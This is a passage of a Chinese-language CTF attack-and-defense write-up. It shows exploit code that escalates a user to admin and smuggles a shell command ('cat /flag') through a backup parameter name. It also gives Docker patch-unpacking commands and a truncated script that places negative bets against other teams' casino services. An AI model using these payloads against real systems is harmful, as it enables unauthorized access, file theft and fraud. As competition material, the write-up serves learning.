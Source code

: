 ```python
        'user[role]': 'admin',
    })

    # 'backup[users]=1&backup[-Iecho+`cat+/flag`>/app/public/af9acdd862352d3d895f16f0dd3380724b0dd33214f1fe8253b6072aaa0b9333e776a1a90555274789a2953c152fafc9]=test'
    sess.post(url + '/admin/backup', data={
        "backup[users]": "1",
        f"backup[-Iecho `cat /flag`>/app/public/{username}]": "test"
    })
    r = sess.get(url + f'/{username}.json')
    print(r.text, flush=True)

main()
```

另外比賽給的 patch 是從 Docker 出來的, 所以拆的時候要像這樣:

```sh
rm file*
wget --header="Authorization: <team token>" http://35.221.224.244:8888/patch/123/file
zstd -d file -o file.tar
undocker file.tar team3_r89.tar
mkdir team3_r89
tar xvf team3_r89.tar -C team3_r89
diff -r src patches/team3_r89/app/src/
```

基本上跟 DEF CON 一樣.

賽後 maple3142 說這題可以 persist 一直拿 flag, 因為不會被洗掉, 但沒人做.

## Casino [A&D / KoH?]

這題只有幫忙臨時寫 script, 寫的是到別人的賭場賭負數的錢, 大概花了 1~2 分鐘寫好.

```python
import os

def get_user_token():
    import requests
    URL = 'http://10.102.100.2:8080/api/roundInfo?team_token=467f2d77f9df424490d15fc05d80774a'
    response = requests.get(URL).json()
    return response['user_token']

def main():
    import requests
    while True:
        for i in range(1, 11):
            user_token = get_user_token()
            if i == 6: continue
            print(i)
            cmd = '''
    curl 'http://10.102.'''+str(i)+'''.20:8000/api/start_game' \
    -H 'Accept: */*' \
    -H 'Accept-Language: zh-TW,zh;q=0.9' \
    -H 'Connection: keep-alive' \
    -H 'Content-Type: application/json' \
    -H 'Cookie: SL_G_WPT_TO=zh-TW; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1; teamToken=<team token>' \
    -H 'DNT: 1' \
    -H 'Origin: http://10.102.9.20:8000' \
    -H 'Referer: http://10.102.9.20:8000/' \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0' \
    --data-raw '{"user_token":"'''+user_token+'''","bet":"-10000"}' \
    --compressed \
```
